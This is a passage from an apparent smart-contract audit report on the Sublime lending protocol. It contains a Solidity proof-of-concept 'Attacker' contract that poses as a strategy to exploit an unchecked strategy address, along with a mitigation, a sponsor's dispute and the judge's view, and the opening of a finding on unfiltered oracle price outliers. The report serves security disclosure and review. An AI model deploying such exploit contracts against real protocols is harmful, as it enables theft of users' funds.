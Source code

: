 Proof of Concept

```solidity
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract Attacker{
    function getSharesForTokens(uint256 amount, address token) external payable  returns(uint256){
        return 0;
    }
    function unlockTokens(address token, uint256 amount) external payable returns(uint256){
        uint256 bal;
        if(token == address(0))
            bal = msg.sender.balance;
        else
            bal = IERC20(token).balanceOf(msg.sender);
        return bal;
    }
}
```
#### Recommended Mitigation Steps

Add a check for \_currentStrategy to be from strategy list like the one in line
<https://github.com/code-423n4/2021-12-sublime/blob/main/contracts/SavingsAccount/SavingsAccount.sol#L159>

    require(IStrategyRegistry(strategyRegistry).registry(_newStrategy), 'SavingsAccount::_newStrategy do not exist');

**[ritik99 (Sublime) disputed](https://github.com/code-423n4/2021-12-sublime-findings/issues/41#issuecomment-1001380202):**
 > The savings account contract doesn't hold any tokens, so it is not possible to lock tokens in a new strategy, hence this attack will not work. Nevertheless it is something we will explore further to limit unexpected state changes

**[0xean (judge) commented](https://github.com/code-423n4/2021-12-sublime-findings/issues/41#issuecomment-1018063038):**
 > Based on the review of the warden I believe this is a valid attack path.  This line would need to change to the amount of tokens that are to be "stolen" but otherwise this does seem accurate. 
> 
```solidity
bal = IERC20(token).balanceOf(msg.sender);
```



## [[H-09] `PriceOracle` Does Not Filter Price Feed Outliers](https://github.com/code-423n4/2021-12-sublime-findings/issues/51)
_Submitted by leastwood_

#### Impact

If for whatever reason the Chainlink oracle returns a malformed price due to oracle manipulation or a malfunctioned price, the result will be passed onto users, causing unintended consequences as a result.
